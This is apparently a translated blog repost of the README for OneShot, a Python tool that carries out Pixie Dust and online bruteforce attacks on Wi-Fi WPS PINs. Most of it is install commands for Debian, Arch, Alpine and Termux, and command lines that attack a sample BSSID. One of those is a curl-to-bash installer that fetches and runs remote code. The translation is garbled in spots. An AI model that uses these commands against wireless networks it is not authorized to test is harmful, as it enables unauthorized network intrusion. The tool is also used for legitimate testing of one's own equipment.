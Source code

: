 OneShot: WPS Pin attacks without monitoring function!

##
#
https://en.iguru.gr/oneshot-epitheseis-wps-pin-choris-leitourgia-monitoring/
#
https://github.com/nikita-yfh/OneShot-C
#
##

15/04/2022, 13:29

OneShot is an open source python script that executes Pixie Dust attacks without having to first change the interface to monitoring mode.
Contents hide
Specifications
System requirements
Installation
Use
Application snapshots
hack
Specifications

    Pixie Dust attack
    Built-in WPS PIN without 3WiFi connection
    Online WPS bruteforce
    Wi-Fi scanner based on iw

System requirements

    Python 3.6 and above
    Wpa supplicant
    Pixiewps
    iw

Installation

Debian / Ubuntu

sudo apt install -y python3 wpasupplicant iw wget

Pixiewps installation

Ubuntu 18.04 and later or Debian 10 and later

sudo apt install -y pixiewps

Other editions

sudo apt install -y build-essential unzip
wget https://github.com/wiire-a/pixiewps/archive/master.zip && unzip master.zip
cd pixiewps*/
make
sudo make install

Download OneShot

cd ~
wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py

Optional: download a list of vulnerable devices to pixie dust forsignalnote on scan results:

wget https://raw.githubusercontent.com/drygdryg/OneShot/master/vulnwsc.txt

Arch Linux

Installation requirements

sudo pacman -S wpa_supplicant pixiewps wget python

Download OneShot

wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py

Optional: download a list of vulnerable devices in pixie dust to highlight the scan results:

wget https://raw.githubusercontent.com/drygdryg/OneShot/master/vulnwsc.txt

Alpine Linux

It can also be used to run on Android devices that use Linux Deploy

Installation requirements
Personcase of the test repository:

sudo sh -c 'echo "http://dl-cdn.alpinelinux.org/alpine/edge/testing/" >> /etc/apk/repositories'

sudo apk add python3 wpa_supplicant pixiewps iw

Download OneShot

sudo wget https://raw.githubusercontent.com/drygdryg/OneShot/master/oneshot.py

Optional: download a list of vulnerable devices in pixie dust to highlight the scan results:

sudo wget https://raw.githubusercontent.com/drygdryg/OneShot/master/vulnwsc.txt

Termux

Please note that it is required access root.
Use installer

curl -sSf https://raw.githubusercontent.com/drygdryg/OneShot_Termux_installer/master/installer.sh | bash

Manually

Installation requirements

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw

Download OneShot

git clone --depth 1 https://github.com/drygdryg/OneShot OneShot

Implementation

sudo python OneShot/oneshot.py -i wlan0 --iface-down -K

Use

Start it attack Pixie Dust on a specified BSSID:

sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K

Show available networks and perform a Pixie Dust attack on a specified one network:

sudo python3 oneshot.py -i wlan0 -K

 WPS bruteforce attack with the specified first half of the PIN:

sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

WPS connection mode:

sudo python3 oneshot.py -i wlan0 --pbc
Application snapshots
68747470733a2f2f692e696d6775722e636f6d2f324e327a615a742e706e67

Download the program from here.
